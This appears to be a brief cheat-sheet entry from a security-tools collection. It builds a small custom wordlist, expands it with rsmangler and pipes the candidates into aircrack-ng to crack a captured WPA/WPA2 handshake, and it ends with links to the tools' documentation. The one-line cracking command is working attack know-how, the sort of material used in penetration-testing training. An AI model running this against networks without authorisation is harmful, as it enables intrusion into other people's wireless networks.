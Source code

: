 # Rsmangler with Aircrack-ng (WPA/WPA2)

Use this tool to crack WPA/WPA2 passwords with aircrack-ng

```bash
# Create a custom wordlist
echo 'donkey' > wordlist.txt
echo 'burro' >> wordlist.txt
echo 'mule' >> wordlist.txt
echo 'ass' >> wordlist.txt
echo 'dumb' >> wordlist.txt

rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e $SSID $PCAP -w -
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Rsmangler](https://digi.ninja/projects/rsmangler.php)
